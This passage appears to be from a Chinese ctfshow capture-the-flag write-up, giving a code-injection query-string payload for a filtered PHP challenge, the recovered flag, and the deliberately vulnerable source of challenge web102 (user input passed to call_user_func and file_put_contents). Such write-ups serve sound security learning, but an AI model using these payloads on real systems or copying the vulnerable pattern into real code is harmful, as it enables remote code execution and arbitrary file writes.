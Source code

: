 此题在上一题的基础上做了过滤，答案是 `?v1=1&v2=echo new Reflectionclass&v3=;`

此时成了 new Reflectionclass('ctfshow')

<img src="图片\Snipaste_2023-01-09_13-42-50.png" alt="Snipaste_2023-01-09_13-42-50" style="zoom:67%;" />

答案少一位，我们就硬试

```
ctfshow{6f38eeae-ee43-4339-a13c-b073c4db1865}
```

### web102

```php
<?php

highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}
?>
```
